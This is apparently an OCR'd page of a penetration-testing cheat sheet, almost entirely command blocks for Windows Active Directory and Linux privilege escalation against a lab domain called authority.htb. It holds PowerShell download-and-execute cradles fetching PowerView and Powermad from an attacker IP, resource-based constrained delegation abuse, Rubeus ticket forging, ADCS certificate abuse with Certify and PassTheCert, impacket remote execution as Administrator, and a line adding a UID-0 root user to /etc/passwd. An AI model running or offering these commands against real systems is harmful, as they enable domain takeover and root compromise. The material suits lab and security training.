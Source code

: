 ```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/Powermad.ps1')

New-MachineAccount -MachineAccount TEST -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose 

Get-DomainComputer TEST

$ComputerSid = Get-DomainComputer TEST -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer TEST | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

.\Rubeus.exe hash /user:TEST$ /password:123456 /domain:authority.htb
.\Rubeus.exe s4u /user:TEST$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:svc_ldap /msdsspn:cifs/TEST.authority.htb /ptt
```
### ADCS
```powershell
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:<CA Name> /template:<Template Name> /altname:Administrator

openssl pkcs12 -in cert.pem -inkey priv.key -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out admin.pfx

.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /getcredentials /password:
```
#### PassTheCert
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')

wget https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x86/PassTheCert.exe

.\PassTheCert.exe --server <server-ip or fqdn> --cert-path <pfx-path> --add-computer --computer-name <Computer Name>
Get-DomainComputer authority
Get-DomainComputer <Computer Name>
.\PassTheCert.exe --server <server-ip or fqdn> --cert-path <pfx-path> --rbcd --target <CN=DC,OU=Domain Controllers,DC=example,DC=com> --sid <Resource-SID>

impacket-getST -spn 'cifs/authority.authority.htb' -impersonate Administrator 'authority.htb/DESKTOP-1337$:99U1VOMhRX6LEvISJJQ9PMo07osUJLcp'
impacket-wmiexec -k -no-pass authority.htb/Administrator@authority.authority.htb
```

## Linux
### SUGGEST
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh 
```
###  /etc/passwd
```bash
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g
joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
